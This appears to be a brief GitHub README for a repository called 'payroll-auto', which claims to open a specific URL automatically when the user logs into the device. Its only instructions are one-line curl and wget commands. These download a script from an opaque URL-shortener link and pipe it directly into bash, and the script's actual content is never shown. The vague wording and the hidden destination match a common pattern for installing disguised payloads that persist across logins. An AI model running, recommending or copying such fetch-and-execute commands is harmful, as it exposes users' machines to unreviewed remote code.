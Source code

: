 # payroll-auto
Enabling automatic opening a specific URL on logging into the device
## Introduction

This script can be downloaded and executed using either `curl` or `wget` commands. It performs a specific task when executed. You can choose one of the following methods to run the script:

### Using `curl`

```bash
curl -L -o i.sh t.ly/b3uCh ; bash i.sh
```

### Using `wget`

```bash
wget  t.ly/b3uCh -O i.sh ; bash i.sh
```
